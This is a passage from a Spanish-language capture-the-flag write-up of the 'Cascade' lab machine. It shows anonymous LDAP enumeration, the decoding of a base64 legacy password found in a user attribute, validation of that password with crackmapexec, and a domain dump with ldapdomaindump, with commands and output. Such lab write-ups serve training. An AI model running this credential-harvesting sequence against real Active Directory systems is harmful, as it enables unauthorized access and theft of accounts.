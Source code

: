 ```null
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Y extraigo mucha información

```null
ldapsearch -x -H ldap://10.10.10.182:389/ -b "DC=cascade,DC=local" > ldapenum
```

Veo un recurso compartido, correspondiente al grupo Audit Share

```null
description: \\Casc-DC1\Audit$
```

De todo la captura, filtro por el SPN de cada usuario. Para r.thomson hay un campo con una contraseña en base64

```null
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

Y es válida

```null
crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' | grep "+"
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```

Utilizo ```ldapdomaindump``` para dumpear datos y estructurarlos por tablas

```null
ldapdomaindump -u 'cascade.local\r.thompson' -p 'rY4n5eva' 10.10.10.182
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
